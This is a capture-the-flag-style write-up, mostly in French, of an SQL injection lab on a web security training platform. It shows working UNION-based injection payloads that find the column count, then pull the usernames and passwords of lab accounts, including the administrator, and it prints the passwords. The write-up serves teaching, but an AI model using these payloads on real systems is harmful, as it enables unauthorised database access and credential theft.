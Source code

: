           DESCRIPTION
------------------------------------------------------------------------------------------------------

This lab contains an SQL injection vulnerability in the product category filter.
The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.
To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform an SQL injection UNION attack that retrieves all usernames and passwords,
and use the information to log in as the administrator user.

------------------------------------------------------------------------------------------------------

Pour le début, même chose que dans les précédents labs, il faut trouver le nombre de colonnes que contient la requête de la manière suivante :

https://0a1f005004cefab4c0b9415b002200c1.web-security-academy.net/filter?category=Clothing%2c+shoes+and+accessories'UNION SELECT NULL--

Plus d'internal server error à partir du 2nd NULL, vérifions dorénavant la compatibilité de chaque colonne :

https://0a1f005004cefab4c0b9415b002200c1.web-security-academy.net/filter?category=Clothing%2c+shoes+and+accessories'UNION SELECT 'a',NULL--
https://0a1f005004cefab4c0b9415b002200c1.web-security-academy.net/filter?category=Clothing%2c+shoes+and+accessories'UNION SELECT NULL,'a'--
Les deux colonnes sont compatibles.


Tentons maintenant de récupérer le mot de passe de l'administrateur.

https://0a1f005004cefab4c0b9415b002200c1.web-security-academy.net/filter?category=Gifts'UNION SELECT username,password FROM users--


Les informations suivantes sont renvoyées par le serveur :

carlos
l8q5jyynnulbl6stuooi
administrator
1rlwh1lvm4ytp0yubqhe
wiener
8rwfk6bndgcunvflzlnw

Il suffit maintenant de se connecter avec le mot de passe de l'administrateur pour terminer le lab.

